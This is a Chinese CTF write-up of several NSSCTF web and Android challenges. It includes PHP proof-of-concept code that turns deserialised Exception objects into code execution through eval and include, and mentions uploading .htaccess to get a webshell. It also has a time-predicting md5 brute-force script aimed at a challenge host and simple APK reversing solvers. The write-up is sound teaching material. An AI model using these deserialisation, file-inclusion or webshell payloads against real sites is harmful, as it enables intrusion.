[NSSCTF Web + mobile] 部分 WP 3
===

## [极客大挑战 2020] greatphp

> 题目描述:  
> 1.md5(sha1) a string, an array, or?
> 2.End the past and create a new phpcode!

### 代码审计

```php
<?php
error_reporting(0);
class SYCLOVER {
    public $syc;
    public $lover;

    // 反序列化时调用
    public function __wakeup(){
        if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
            // 一处哈希函数的 bypass
           if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
                // ban 了<?php, (, ), ", ', 注意没有开启忽略大小写
                // 注意 eval(code) 中的内容应该符合 php 语法
                eval($this->syc);
           } else {
               die("Try Hard !!");
           }
           
        }
    }
}

if (isset($_GET['great'])){
    unserialize($_GET['great']);
} else {
    highlight_file(__FILE__);
}

?>
```

### 哈希强比较绕过

#### 魔法函数尝试

构造 payload, 首先是绕过哈希强比较, 这里不能直接简单的传入两个数组, 因为稍后 syc 会拿去 `eval()`, 必须传入一个字符串;

> 思考了一下, 可以用类似的方法, 如果数组不行的话, 可以考虑用对象来完成, 把 `$this->syc` 和 `$this->lover` 传入为两个不同的对象, 同时给两者加一个 **`__toString()` 魔法函数**让他们满足哈希强比较; 同时调整这个魔术方法来 bypass;
> 不过这个方式需要寻找其他的已经定义了 **`__toString()` 魔法函数**的方法来进行调用, 因为序列化时不会把内置魔法函数存进去;

#### 原生类绕过

在 php 中, 存在**特殊的异常类**, 例如 Exception / Error 类, 这两种类会 **自带一个 `__toString()`** 魔法函数;

php 源码中这个 Exception 类的定义:

```php
public Exception::__construct(
    // 异常文本信息, __toString(), getMessage() 的结果
    string $message = "",
    // (int) 异常代码值, 
    int $code = 0,
    ?Throwable $previous = null
)
```

### 解法1: include 变量可以不用引号

这里用到的核心是, php 中 `include` 一个变量值, 是**不需要引号的**; 也就是可以用 `include $_GET[_];` 这种形式, 并且虽然 ban 了 `<?php`, 但是没有 ban `<?=`, 完全不影响结果;

PoC:
```php
<?php

class SYCLOVER {
    public $syc;
    public $lover;
}

$payload = '?><?= include $_GET[_]; ?>';
$a=new Exception($payload,1);$b=new Exception($payload,2);

$s = new SYCLOVER();
$s->syc = $a;
$s->lover = $b;
var_dump(urlencode(serialize($s)));
```

> 注意要用单引号, 否则 `$` 会被解析;

然后传入 `123=./flag`:


### 解法2: 取反 + 报错

取两次反就可以了, 由于序列化这里的结果也是不含引号的;

PoC:

```php
<?php
class SYCLOVER {
    public $syc;
    public $lover;
 
    public function __construct($b,$c){
        $this->syc = $b;
        $this->lover = $c;
    }
}
$in = ~("/flag");
$payload = "?><?=include~".$in."?>";
$b = new error($payload,1);$c=new error($payload,2);
$a = new SYCLOVER($b,$c);
echo(urlencode(serialize($a)));
?>
```

> 踩坑: 注意 php 文件路径不能含有被 waf 掉的字符, 比如这里就是括号;


## [SWPUCTF 2021 新生赛]easyupload3.0

### 题解

一个文件上传界面, 传 php 文件被 waf, 传 .htaccess 通过;


蚁剑连上 webshell;

flag 在 `/proc/self/environ` 里:


## [NSSCTF2025 MOBILE] APK基础理解

### 题解

跟着提示, 第一步在 Mainactivity 发现一段 flag:



接下来根据提示: 

> apk里的很多资源包括图片音频字符串等都放在 res/ 目录里面喵，试试在drawable里找到写有flag2的图片喵，然后在string.xml(resources.arsc/res/value)找找flag3喵





接下来:

> 安卓逆向可不仅仅只有java层喵，我才不会告诉把apk解压过后，里面的lib文件夹放有so文件并且可以使用ida反编译成伪c代码喵;

解压拖进 exeinfo:



IDA 32 位反编译然后 shift + f12 找到 flag:



得到完整 flag: `NSSCTF{you_are_so_smart_!!!}`;

## [NSSCTF2025 MOBILE] 凯撒加密 

### 题解

jadx 打开后关键代码:

```java
private final boolean validateFlag(String input) throws NumberFormatException {
        String transformed = simpleTransform(input);
        String expected = decodeHex("5156564657497b645f70645f6e645f71725f777a727d");
        return Intrinsics.areEqual(transformed, expected);
    }

    private final String simpleTransform(String input) {
        char c;
        StringBuilder result = new StringBuilder();
        int length = input.length();
        for (int i = 0; i < length; i++) {
            char c2 = input.charAt(i);
            if ('a' <= c2 && c2 < '{') {
                c = (char) ((((c2 - 'a') + 3) % 26) + 97);
            } else if ('A' <= c2 && c2 < '[') {
                c = (char) ((((c2 - 'A') + 3) % 26) + 65);
            } else if ('0' <= c2 && c2 < ':') {
                c = (char) ((((c2 - '0') + 3) % 10) + 48);
            } else {
                c = c2;
            }
            result.append(c);
        }
        String string = result.toString();
        Intrinsics.checkNotNullExpressionValue(string, "toString(...)");
        return string;
    }

    private final String decodeHex(String hex) throws NumberFormatException {
        StringBuilder result = new StringBuilder();
        for (int i = 0; i < hex.length(); i += 2) {
            String hexByte = hex.substring(i, i + 2);
            Intrinsics.checkNotNullExpressionValue(hexByte, "substring(...)");
            int decimal = Integer.parseInt(hexByte, CharsKt.checkRadix(16));
            result.append((char) decimal);
        }
        String string = result.toString();
        Intrinsics.checkNotNullExpressionValue(string, "toString(...)");
        return string;
    }
```

首先直接把 `decodeHex(...)` 的结果跑出来: `QVVFWI{d_pd_nd_qr_wzr}`, 然后爆破剩下的密码:

```python
import string

pwd = ''
target = 'QVVFWI{d_pd_nd_qr_wzr}'

# 字符集: a-z A-Z 0-9
charset = string.ascii_letters + string.digits + '{}_'

for i in range(len(target)):
    for c in charset:
        if ord(c)>=ord('a') and ord(c)<=ord('z'):
            new_c = chr((ord(c)-ord('a')+3)%26 + ord('a'))
        elif ord(c)>=ord('A') and ord(c)<=ord('Z'):
            new_c = chr((ord(c)-ord('A')+3)%26 + ord('A'))
        elif ord(c)>=ord('0') and ord(c)<=ord('9'):
            new_c = chr((ord(c)-ord('0')+3)%10 + ord('0'))
        else:
            new_c = c
        if new_c == target[len(pwd)]:
            pwd += c
            print("[+] found password:", pwd)
            break
```



## [NSSCTF2025 MOBILE] So层加密

### 题解

用 IDA 打开解压后的 `.so` 文件, 有一些可疑代码, 首先搜索字符串, 找到一个很可疑的字符串: 



看起来已经很接近 flag 了, 但是可能有混淆, 接下来查找可能的 base64 编码函数: 



追踪这个地址:



这应该就是字母表, 注意看这个字母表里 `0 1 2 3 4 5 6 7 8 9` 被换成了 `0 7 2 1 3 4 5 6 8 9`:

```python
import sys

# 自定义 Base64 字符表
custom_b64_table = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0721345689+/"

# 构建反向索引表：字符 -> 0~63
decode_table = {c: i for i, c in enumerate(custom_b64_table)}

def custom_base64_decode(s):
    # 去掉填充符号
    s = s.rstrip('=')
    decoded_bytes = bytearray()
    buffer = 0
    bits_collected = 0

    for c in s:
        if c not in decode_table:
            raise ValueError(f"Invalid character '{c}' in input")
        val = decode_table[c]
        buffer = (buffer << 6) | val
        bits_collected += 6

        if bits_collected >= 8:
            bits_collected -= 8
            byte = (buffer >> bits_collected) & 0xFF
            decoded_bytes.append(byte)

    return bytes(decoded_bytes)

if __name__ == "__main__":
    # 自定义 Base64 字符串
    encoded = "TlNTQ7RGe7N7bW7lcl9Qb2NrZXRzX1NvcmFrYWRvX2FvX2thd2FpaX0="
    decoded = custom_base64_decode(encoded)
    try:
        print(decoded.decode('utf-8'))
    except UnicodeDecodeError:
        print(decoded)  # 如果不是标准 UTF-8，就直接打印 bytes
```



得到 flag;

## [UUCTF 2022 新生赛 WEB]funmd5

### 题解

打开网站:

```php
<?php
error_reporting(0);
include "flag.php";
$time=time();
$guessmd5=md5($time);
// guessmd5 为当前时间的 md5 哈希
$md5=$_GET["md5"];
if(isset($md5)){
    $sub=substr($time,-1);
    $md5=preg_replace('/^(.*)0e(.*)$/','${1}no_science_notation!${2}',$md5);
    // 过滤了 0e
    if(preg_match('/0e/',$md5[0])){
        $md5[0]=substr($md5[0],$sub);
        if($md5[0]==md5($md5[0])&&$md5[1]===$guessmd5){
            // 注意: 0e215962017 这个字符串 md5 后和自身弱比较相等;
            echo "well!you win again!now flag is yours.<br>";
            echo $flag;
        }
        else{
            echo $md5[0];
            echo "oh!no!maybe you need learn more PHP!";
        }
    }
    else{
        echo "this is your md5:$md5[0]<br>";
        echo "maybe you need more think think!";
    }
}
else{
    highlight_file(__FILE__);
    $sub=strlen($md5[0]);
    echo substr($guessmd5,0,5)."<br>";
    echo "plase give me the md5!";
}
?>
```

注意这里用到的 `.*` 匹配模式是**默认不换行**的, 所以传入 `%0a0e215962017` 理论上就可以绕过第一层;

第二层匹配的逻辑是要上传的字符串正好等于当前时间戳的 md5 哈希, 那么只要预测未来某个时间点, 然后批量发包就行了;

```python
from hashlib import md5
import requests
import time


url = 'http://node5.anna.nssctf.cn:29755/?'

# 代理
proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080"
}

while True:
    found = False
    # 预测时间
    PREDICT_TIME = int(time.time()) + 2
    timehash = md5(str(PREDICT_TIME).encode()).hexdigest()

    print('[*] Predicted time:', PREDICT_TIME)
    print('[*] Payload md5:', timehash)

    payload = f'md5[0]=%0a0e215962017&md5[1]={timehash}'

    # 控制每秒只发一个包
    while True:
        print("[*] Trying url:", url + payload)
        response = requests.get(url + payload, proxies=proxies)
        # print('[*] Sent payload:', params)
        time.sleep(0.5)
        if 'win' in response.text:
            print('[+] Flag found:', response.text)
            found = True
            break
        # if 'PHP' in response.text:
        #     print('[-] Error response, trying other payload...')
        if time.time() > PREDICT_TIME + 5:
            print('[-] Timeout...')
            break
    if found:
        break
```



